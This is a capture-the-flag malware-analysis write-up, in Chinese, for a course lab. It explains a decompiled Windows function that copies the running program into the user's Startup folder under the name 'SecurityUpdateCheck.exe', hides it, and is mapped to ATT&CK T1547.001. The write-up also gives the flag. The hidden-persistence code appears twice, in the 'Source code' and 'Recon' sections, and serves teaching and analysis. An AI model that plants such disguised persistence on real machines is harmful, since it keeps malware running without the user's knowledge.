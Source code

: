 # Simple Reverse - 0x16(2023 Lab - WinMalware - sub_140001C80)
## Description
> 分析 eductf-lab.exe 中的 function sub_140001C80 在做什麼，並找出其行為所對應的 MITRE ATT&CK technique ID。
> Flag format: FLAG{T1234.001}
## Background
* [GetModuleFileNameA](https://learn.microsoft.com/zh-tw/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulefilenamea)
* [GetUserNameA](https://learn.microsoft.com/zh-tw/windows/win32/api/winbase/nf-winbase-getusernamea)
* [CopyFileA](https://learn.microsoft.com/zh-tw/windows/win32/api/winbase/nf-winbase-copyfilea)
* [SetFileAttributesA](https://learn.microsoft.com/zh-tw/windows/win32/api/fileapi/nf-fileapi-setfileattributesa)
## Source code
* Main Function
    ```cpp
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      Sleep(0x1B7740u);
      sub_140001C80();
      sub_140001030();
      sub_140001120();
      sub_140001BF0();
      return 0;
    }
    ```
* sub_140001C80
    :::spoiler IDA Source Code
    ```cpp
    DWORD sub_140001C80()
    {
      DWORD result; // eax
      size_t v1; // rax
      DWORD v2; // [rsp+20h] [rbp-258h]
      const CHAR *lpNewFileName; // [rsp+28h] [rbp-250h]
      DWORD pcbBuffer[4]; // [rsp+30h] [rbp-248h] BYREF
      CHAR Buffer[272]; // [rsp+40h] [rbp-238h] BYREF
      CHAR Filename[272]; // [rsp+150h] [rbp-128h] BYREF

      result = GetModuleFileNameA(0i64, Filename, 0x104u);
      v2 = result;
      if ( result )
      {
        result = GetUserNameA(Buffer, pcbBuffer);
        if ( result )
        {
          v1 = pcbBuffer[0] + v2 + 100;
          if ( __CFADD__(pcbBuffer[0], v2 + 100) )
            v1 = -1i64;
          lpNewFileName = (const CHAR *)malloc(v1);
          sub_140001350(
            lpNewFileName,
            v2 + pcbBuffer[0] + 100,
            "C:\\Users\\%s\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\SecurityUpdateCheck.exe",
            Buffer);
          result = CopyFileA(Filename, lpNewFileName, 0);
          if ( result )
            return SetFileAttributesA(lpNewFileName, 0x26u);
        }
      }
      return result;
    }
    ```
    :::
## Recon
:::spoiler IDA sub_14001C80(解析版)
```cpp
DWORD copyfile2startup_setAttribute()
{
  DWORD Result; // eax
  size_t malloc_size; // rax
  DWORD filename_len; // [rsp+20h] [rbp-258h]
  const CHAR *file_new_path; // [rsp+28h] [rbp-250h]
  int username[4]; // [rsp+30h] [rbp-248h] BYREF
  CHAR username_buffer[272]; // [rsp+40h] [rbp-238h] BYREF
  CHAR Filename[272]; // [rsp+150h] [rbp-128h] BYREF

  Result = GetModuleFileNameA(0i64, Filename, 260u);// 取得目前執行程式的名稱
  filename_len = Result;                        // 回傳值為名稱長度
  if ( Result )
  {
    Result = GetUserNameA(username_buffer, username);// 取得使用者名稱
    if ( Result )
    {
      malloc_size = username[0] + filename_len + 100;
      if ( __CFADD__(username[0], filename_len + 100) )
        malloc_size = -1i64;
      file_new_path = malloc(malloc_size);
      sprintf(
        file_new_path,
        filename_len + username[0] + 100,
        "C:\\Users\\%s\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\SecurityUpdateCheck.exe",
        username_buffer);
      Result = CopyFileA(Filename, file_new_path, 0);
      if ( Result )
        return SetFileAttributesA(file_new_path, 0x26u);
    }
  }
  return Result;
}
```
:::
從解析版中開始由上而下可以知道攻擊者的完整意圖
1. 取得目前執行程式的名稱和名稱長度
2. 取得目前執行該程式的使用者名稱
3. 利用(username_length + filename_length + 100)這個大小取得malloc的空間
4. 利用sprintf，讓該空間儲存`C:\\Users\\{username}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\SecurityUpdateCheck.exe`這個字串
5. 複製目前這個檔案到上一個file path
6. 設定新檔案的屬性(備份檔+隱藏檔+系統檔)

根據以上的流程很明顯他要把檔案放到每次開機都一定會執行的資料夾，並且不想讓使用者察覺到該檔案，所有操作都是為了之後或下一次開機的時候仍然能夠持續執行該程式$\to$Persistent
## Exploit
從ATT&CK的網站可以看到persistence的子頁面出現autostart其實和目前的狀態最吻合，就看他是用甚麼方法達到該目的，從其中的技巧來看會發現有很多種方法可以達到此效果，例如改變機碼或是改變lsass driver之類的，而我們的技巧被歸類在T1547.001
[Att&CK - T1547](https://attack.mitre.org/techniques/T1547/)
Flag: `FLAG{T1547.001}`